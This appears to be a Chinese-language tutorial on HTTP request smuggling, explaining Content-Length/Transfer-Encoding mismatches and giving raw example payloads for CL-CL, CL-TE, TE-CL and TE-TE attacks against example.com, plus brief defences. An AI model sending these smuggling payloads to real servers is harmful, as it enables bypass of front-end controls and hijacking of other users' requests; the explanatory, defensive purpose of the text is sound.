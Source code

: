 ```yaml
---

title: http请求走私

date: 2023-12-26 02:01:50

tags:

---
```


# HTTP 请求走私

## 简介

HTTP请求走私是一种干扰网站处理HTTP请求序列方式的技术，最早在 2005 年的一篇 [文章](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf) 中被提出。

## 成因

请求走私大多发生于前端服务器和后端服务器对客户端传入的数据理解不一致的情况。这是因为HTTP规范提供了两种不同的方法来指定请求的结束位置，即 `Content-Length` 和 `Transfer-Encoding` 标头。

## 分类

- CLTE：前端服务器使用 `Content-Length` 头，后端服务器使用 `Transfer-Encoding` 头
- TECL：前端服务器使用 `Transfer-Encoding` 标头，后端服务器使用 `Content-Length` 标头。
- TETE：前端和后端服务器都支持 `Transfer-Encoding` 标头，但是可以通过以某种方式来诱导其中一个服务器不处理它。

## 攻击

### cl不为0的GET请求

当前端服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的 `Content-Length` 头，不进行处理。例如下面这个例子：

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n

GET /secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

前端服务器处理了 `Content-Length` ，而后端服务器没有处理 `Content-Length` ，基于pipeline机制认为这是两个独立的请求，就造成了漏洞的发生。

### CL-CL

根据RFC 7230，当服务器收到的请求中包含两个 `Content-Length` ，而且两者的值不同时，需要返回400错误，但是有的服务器并没有严格实现这个规范。这种情况下，当前后端各取不同的 `Content-Length` 值时，就会出现漏洞。例如：

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

这个例子中a就会被带入下一个请求，变为 `aGET / HTTP/1.1\r\n` 。

### CL-TE

CL-TE指前端服务器处理 `Content-Length` 这一请求头，而后端服务器遵守RFC2616的规定，忽略掉 `Content-Length` ，处理 `Transfer-Encoding` 。例如：

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
a
```

这个例子中a同样会被带入下一个请求，变为 `aGET / HTTP/1.1\r\n` 。

### TE-CL

TE-CL指前端服务器处理 `Transfer-Encoding` 请求头，而后端服务器处理 `Content-Length` 请求头。例如：

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

### TE-TE

TE-TE指前后端服务器都处理 `Transfer-Encoding` 请求头，但是在容错性上表现不同，例如有的服务器可能会处理 `Transfer-encoding` ，测试例如：

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

## 防御

- 禁用后端连接重用
- 确保连接中的所有服务器具有相同的配置
- 拒绝有二义性的请求
